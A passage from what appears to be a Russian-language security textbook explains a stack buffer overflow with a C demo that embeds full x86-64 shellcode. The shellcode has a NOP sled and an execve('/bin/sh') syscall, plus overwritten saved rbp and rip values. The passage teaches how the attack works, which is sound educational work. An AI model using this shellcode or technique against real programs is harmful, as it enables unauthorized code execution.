 Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции, а в другие регистры процессора -- аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис.~\ref{fig:stack-overflow} приведён стек с переполненным буфером, в результате которого записалось новое сохранённое значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека неизвестны, поэтому злоумышленник угадывает предполагаемый адрес стека. В начале исполняемого кода создаётся массив из операций \texttt{nop} с надеждой, что предполагаемое значение стека, то есть требуемый адрес \texttt{rip}, попадёт на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

